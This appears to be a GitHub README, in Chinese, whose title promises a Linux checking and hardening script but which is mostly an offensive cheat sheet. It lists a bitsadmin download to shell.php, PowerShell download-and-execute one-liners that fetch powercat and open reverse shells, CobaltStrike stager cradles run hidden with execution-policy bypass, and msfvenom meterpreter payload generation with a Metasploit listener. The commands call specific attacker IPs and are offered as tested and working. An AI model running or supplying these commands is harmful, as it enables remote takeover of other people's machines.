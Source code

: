 # CheckLinux
linux的基本属性脚本
———————————————————————————————————————————————————————————————
#Windows加固
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/0c6c67c0-a121-4569-989f-13606417ad6e)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/cbf73c13-3c23-42c0-9fa0-b91dda9b3d93)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/4847def9-074f-4cf2-844f-8769896fb958)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/96f48a4f-d51e-43f9-af10-755c39065532)
#Linux加固
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/c96b97e3-cba3-4389-9814-cc31d7a8bedb)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/7061ed37-65c0-4d15-b7c7-2535bd319ec3)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/257114f4-bc75-4eb7-bb40-dd5c59abdde9)
———————————————————————————————————————————————————————————————
# bitsadmin

bitsadmin  可以用来在windows 命令行下下载文件。bitsadmin是windows 后台智能传输服务的一个工具，windows 的自动更新，补丁之类的下载就是用这个工具来实现的。Windows Server2003和XP是没有bitsadmin的，Winc7及其之后的机器才有。

bitsadmin的一些特性：
bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像curl  wget 这类工具那样能用来下载HTML页面。
bitsadmin /transfer test http://files.cnblogs.com/files/gayhub/bcn.js  c:\users\xie\desktop\shell.php
#"任务名" 可以随意起，保存文件的文件路径必须是已经存在的目录，否则不能下载。
bitsadmin /setpriority test foreground     #设置任务test为最高优先级

# cmd窗口下利用Powershell反弹NC shell 
亲测所有机器都适用
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient)DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11  -p 8888 -e cmd.exe"
# cmd窗口下利用Powershell反弹CobaltStrike shell
windows10 经常性不能用。windows 2008R2以下百分百适用。
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"  
# cmd窗口下反弹MSF shell

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection >7788.ps1        #生成木马文件 7788.ps1
python -m SimpleHTTPServer 80  #开启web服务
# MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 114.118.80.138
set lport 7788
exploit -j
# 目标机的操作

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行
或者
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps'
